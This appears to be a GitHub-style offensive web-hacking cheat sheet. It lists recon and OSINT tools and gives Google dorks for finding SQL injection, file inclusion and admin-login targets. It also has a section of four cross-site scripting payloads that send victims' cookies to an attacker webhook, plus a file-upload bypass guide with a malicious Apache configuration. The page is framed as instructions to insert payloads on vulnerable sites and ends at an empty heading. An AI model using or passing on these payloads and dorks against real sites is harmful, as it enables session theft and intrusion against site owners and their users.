 ## Hacker AI
- [HackerGPT](https://chat.hackerai.co/)

## Web Application Enumeration
- [assetfinder](https://github.com/tomnomnom/assetfinder):
    - Find domains and subdomains potentially related to a given domain.
- [amass](https://github.com/OWASP/Amass)
    - Performs network mapping of attack surfaces and external asset discovery using open source information gathering and active reconnaissance techniques.
- [sublist3r](https://github.com/aboul3la/Sublist3r)
    -  Enumerate subdomains of websites using OSINT
- [httprobe](https://github.com/tomnomnom/httprobe)
    - Take a list of domains and probe for working http and https servers.
- [waybackurls](https://github.com/tomnomnom/waybackurls)
    - Accept line-delimited domains on stdin, fetch known URLs from the Wayback Machine for *.domain and output them on stdout.
- [whatweb](https://github.com/urbanadventurer/WhatWeb)
    - recognises web technologies including content management systems (CMS), blogging platforms, statistic/analytics packages, JavaScript libraries, web servers, and embedded devices.
- [nmap](https://nmap.org/download.html)
    - Performs network mapping of attack surfaces and external asset discovery using open source information gathering and active reconnaissance techniques.
- [eyewitness](https://github.com/FortyNorthSecurity/EyeWitness) 
    - EyeWitness is designed to take screenshots of websites provide some server header info, and identify default credentials if known.

## Cross Site Scripting Steal Cookie

### Insert this payload on vulnerable site

1. Payload with alert
```javascript
<script>
alert(document.cookie);
var i=new Image;
i.src="http://webhook_link/?"+document.cookie;
</script>
```

2. Payload no alert
```javascript
<script>var i=new Image;i.src="http://webhook_link/?"+document.cookie;</script>
```

3. Payload no script tag
```html
<img src=x onerror=this.src='http://webhook_link/?'+document.cookie;>
```

4. Payload no script tag and loop
```html
<img src=x onerror="this.src='http://webhook_link/?'+document.cookie; this.removeAttribute('onerror');">
```

5. Result 

![alt text](image.png)

## Website OSINT

- [BuiltWith](https://builtwith.com/)
- [Domain Dossier](https://centralops.net/co/)
- [DNSlytics](https://dnslytics.com/reverse-ip)
- [SpyOnWeb](https://spyonweb.com/)
- [Visual Ping](https://visualping.io/)
- [Back Link Watch](http://backlinkwatch.com/index.php)
- [View DNS](https://viewdns.info/)
- [urlscan.io](https://urlscan.io/)
- [DNSdumpster](https://dnsdumpster.com/) *MX Record for email.
- [Web Check](https://web-check.as93.net/)
- [crt.sh](https://crt.sh/)
- [Shodan](https://shodan.io)
- [Wayback Machine](https://web.archive.org/)

## Google Dorks for Vulnerability

### SQLI
- inurl:pageid=
- inurl:games.php?id=
- inurl:page.php?file=
- inurl:newsDetail.php?id=
- inurl:gallery.php?id=
- inurl:show.php?id=
- inurl:staff_id=
- inurl:newsitem.php?num=

### LFI
- /index.inc.php?PATH_Includes=
- /ashnews.php?pathtoashnews=
- /ashheadlines.php?pathtoashnews=
- /modules/xgallery/upgrade_album.php?GALLERY_BASEDIR=
- /demo/includes/init.php?user_inc=
- /jaf/index.php?show=
- /inc/shows.inc.php?cutepath=
- /poll/admin/common.inc.php?base_path=
- /pollvote/pollvote.php?pollname=
- /sources/post.php?fil_config=

### SQLI LGGIN BYPASS
- intitle:”Admin Login” “admin login” “blogware”
- intitle:”Admin login” “Web Site Administration” “Copyright”
- intitle:”AlternC Desktop”
- intitle:”Athens Authentication Point”
- intitle:”b2evo > Login form” “Login form. You must log in! You will have to accept cookies in order to log in” -demo -site:b2evolution.net
- intitle:”Cisco CallManager User Options Log On” “Please enter your User ID and Password in the spaces provided below and click the Log On button to co
- intitle:”ColdFusion Administrator Login”
- intitle:”communigate pro * *” intitle:”entrance”
- intitle:”Content Management System” “user name”|”password”|”admin” “Microsoft IE 5.5″ -mambo
- intitle:”Dell Remote Access Controller”
- intitle:”Docutek ERes – Admin Login” -edu
- intitle:”Employee Intranet Login”

[More](https://github.com/0xAbbarhSF/Info-Sec-Dork-List/tree/main)
## File Upload Vulneraility

1. change extension name to bypss
.php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module

1. Use null byte extension
reference : https://book.hacktricks.xyz/pentesting-web/file-upload

1. Change configuration (Apache only)
- Craft Malicious Configuration: 

```bash
php_flag engine on
AddType application/x-httpd-php .php
AddType application/x-httpd-php .phtml
AddType application/x-httpd-php .php3
AddType application/x-httpd-php .php4
AddType application/x-httpd-php .php5
AddType application/x-httpd-php .pht
AddType application/x-httpd-php .phps
```

4. Change Magic byte
try buat request yang valid lepastu just selitkan jer die punya, kita punya payload. tujuan die nak kekalkan magicbyte masa upload.

Reference:
- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files)
- [Hacktricks](https://book.hacktricks.xyz/pentesting-web/file-upload)

## SQLI Vulnerability

